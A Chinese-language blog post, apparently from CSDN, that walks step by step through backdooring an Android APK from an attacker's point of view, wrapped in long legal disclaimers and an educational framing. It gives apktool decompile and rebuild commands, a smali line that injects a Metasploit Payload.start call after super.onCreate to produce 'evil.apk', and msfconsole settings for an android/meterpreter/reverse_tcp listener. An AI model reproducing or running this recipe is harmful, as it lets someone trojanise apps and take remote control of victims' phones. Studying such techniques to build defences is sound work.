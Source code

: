 # 还原攻击者视角：Android APK 后门注入完整实录（供合法研究）

```
本文内容及所涉及的技术，仅限用于合法授权下的安全研究、教学演示、
以及漏洞复现。严禁将本文技术用于未授权的渗透、监听、植入、操控行为。

本文内容仅限安全研究、漏洞复现与教学演示使用！

使用者必须在完全理解并接受本声明的前提下继续阅读与操作。
凡将本文所述方法用于非法用途者，一切法律后果由使用者本人承担。

请严格遵守所在地的法律法规，特别是以下中国法律条款：

📜 《中华人民共和国网络安全法》 第十二条：
禁止任何组织或个人利用网络危害国家安全、煽动颠覆政权等活动。

📜 《中华人民共和国刑法》 第二百八十五条至二百八十七条：
非法入侵计算机系统、篡改或破坏数据将追究刑责。

📜 《中华人民共和国数据安全法》 第三条、第十七条：
数据处理活动必须合法合规，严禁非法获取、传输或泄露数据。

🚫 强烈禁止以下行为：

- 向他人 APK 植入恶意代码并传播
- 上传恶意程序至应用市场
- 在未授权设备或网络环境中运行本篇提及的技术

⚖️ 非法使用将触犯法律，作者不承担由此引发的任何后果。

🧪 本文操作均在本地沙箱环境下进行，示例所用 APK 为自定义构建 demo，用于演示完整技术链路，非实际恶意软件。

💡 特别提醒：
本文所涉及操作可能包含网络通信、远程访问、敏感权限调用等，
必须在受控环境下、获得明确授权后进行。
未经许可的任何行为都将被视为违法攻击。

📛 作者立场中立，仅为安全教育目的演示，不对滥用技术行为负责。
```

### 什么是后门注入？

本文从攻击者的视角出发，详细剖析了 Android 应用后门注入的完整流程。
内容涵盖如何利用 apktool 反编译目标 APK，精准定位并修改 MainActivity 的 smali 代码，在 super.onCreate() 方法执行后植入恶意 payload，随后重新编译并签名生成带有后门的恶意 APK。

最后配合 Metasploit 监听器实现远程控制，完整还原实际攻击链路的每个技术细节，帮助你透彻理解攻击者具体如何渗透和操控目标应用。

### **为什么这很重要？**

1.  攻击者套路不复杂，很多防御其实是“纸老虎”。 掌握完整流程后你会发现，改写 APK 其实没那么难，许多应用缺乏有效保护，极易被植入后门。
2.  揭露安卓应用安全链的真实漏洞。 开发者往往忽视 APK 完整性和签名验证，这给后门留出了巨大空间。
3.  只有站在攻击者角度，防守才能更有针对性。 了解攻击流程后，安全团队才能设计出更精准、更有效的检测和防护措施。
4.  推动安全研究与教育的规范化。 通过合法合规的演示，传递正确的安全研究态度，避免误用造成风险。

简单来说，这篇博客不仅是一次技术拆解，更是一记警钟，提醒每个安卓开发者和安全从业者：`别让你的应用成为黑客的「试验场」，安全无小事。`

---

### 🧰 工具链

| 工具         | 用途说明        |
| ------------ | --------------- |
| `apktool`    | APK 解包/重打包 |
| `msfconsole` | 启动监听器      |

---

### 🕳️ 第一步：反编译 APK

```bash
apktool d your_target.apk -o extracted_apk
```

**这干嘛？**
APK 本质上是安卓应用的安装包，是编译后不可直接阅读的二进制文件。反编译就是把它拆开，把机器看得懂的代码和资源文件还原成我们能分析的格式，比如 `smali` 代码（安卓字节码的汇编语言）、XML 布局文件等。

**为什么用 apktool？** 因为它是最强大且兼容性最好的反编译工具，能完美还原 APK 的结构和代码，方便后续修改。

- 反编译让我们从“黑盒”转变成“白盒”，真正看到应用内部运作。
- 只有“看清楚”了，才知道该在哪注入后门，不是盲目地加东西。
- 这一步完成后，我们得到的 `extracted_apk` 文件夹，里面就是 APK 的“源代码”级别内容，下一步基于此操作。

---

### 🔎 第二步：定位并打开 `MainActivity.smali` —— 瞄准攻击入口

```bash
find extracted_apk -name "*MainActivity*.smali"
```

假设路径是：

```bash
extracted_apk/smali/com/example/app/MainActivity.smali
```

MainActivity 通常是安卓应用的启动页面和逻辑入口，所有应用启动的第一步都经过它。攻击者想要植入后门，自然要在这里动手，确保恶意代码能最先运行。

- 找到 MainActivity.smali 就像找到了房子的门口，控制了入口，后续操作才能有“立足点”。
- smali 是安卓字节码的汇编语言，相当于 Java 源码的中间形态，修改它需要对 smali 语法非常熟悉。
- 定位 MainActivity 是基础，也是后续修改的前提，没有正确定位，注入会「水土不服」。

---

### ☠️ 第三步：注入 payload —— 恶意代码注入与植入

#### Java 代码调用示例

```java

package com.example.app;

import android.app.Activity;
import android.os.Bundle;
import com.metasploit.stage.Payload;

public class MainActivity extends Activity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);


        .....某某代码....

        // 💥 静态调用：触发恶意载荷
        Payload.start(this); // <----------

        .....某某代码.....
    }

}
```

#### 对应 smali 注入点：紧跟在 `super.onCreate(...)` 方法调用之后

```java
invoke-super {p0, p1}, Landroid/app/Activity;->onCreate(Landroid/os/Bundle;)V

invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
```

以上`invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V` 是监听器的 `payload`。

`onCreate()` 是 Activity 启动的核心生命周期函数，`super.onCreate()` 是调用父类的初始化操作。攻击者选在调用父类后立即注入 payload，保证原应用启动流程正常且恶意代码同步运行，做到隐蔽且稳健。

- 恶意 payload 需要在应用启动时自动执行，放在 `onCreate()` 是最有效的时机。
- 先调用 `super.onCreate()` 是尊重原有程序结构，避免崩溃。
- 通过 smali 代码插入静态调用，调用 Metasploit 的 Meterpreter 负载，实现远程控制。
- 这种插入手法技术含量高，不能简单粗暴改代码，否则容易崩溃或被发现。
- 这也是反向工程和代码注入技术的精髓，潜入并共生。

---

### 🏗️ 第四步：重打包并生成恶意 APK

```bash
apktool b extracted_apk -f -s -o evil.apk --use-aapt2
```

修改完 smali 后，我们需要把这些更改“编译回” APK 格式，生成可以安装运行的 APK 文件。apktool 的 build 功能就是做这件事。

- 这一步是将静态修改转成实际可用的攻击载体。
- 使用 `--use-aapt2` 保证打包兼容新版 Android。
- 强制覆盖 (`-f`) 确保之前版本不会影响。
- 打包后，APK 仍需签名（不是这步操作），否则安装会失败。
- 这个流程相当于“制造武器”，既保证功能，也尽量不被检测到。

---

### 🎯 第五步：使用 Metasploit 启动监听器 —— 等待“远控”上钩 ——

```bash
sudo msfconsole
```

依次执行：

```bash
use exploit/multi/handler

set payload android/meterpreter/reverse_tcp
set lhost 192.168.x.x   # 填写你的设备 IP
set lport 4444          # 设置监听端口
run
```

这是启动远程监听器，等待目标设备运行后门 APK 时，连接回攻击者机器，实现远程控制。

- Metasploit 是最强大的渗透测试框架，Meterpreter 是它的多功能远控 payload。
- 设置 `lhost` 和 `lport` 就是告诉 payload 回连哪里。
- 监听器启动后是“被动等待”，真正攻击成功的关键。
- 这一步完成后，你就能远程操控目标设备，完全掌控。

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/15937dcf1db148f28f3671daa72c4383.png#pic_center)

---

### 郑重声明

**学技术，须以善念为本。此博客所分享的知识，皆为安全研究与防护之用。请务必谨记，绝不可滥用这些技能去伤害他人、侵犯隐私或进行任何违法犯罪行为。若你选择走偏，所有后果只能由你自己承担。**

**技术如刀，双刃而锋利。唯有怀抱正义与责任，方能让它照亮前路，而非迷失于黑暗。愿你我都能守住这份初心，成为守护网络安全的真正战士。**

**若你选择滥用本博客内容所学技能所造成的任何损害或违法行为，本人概不负责。若因此被警方或相关执法机关追查，一切法律责任与后果均由使用者本人承担。**
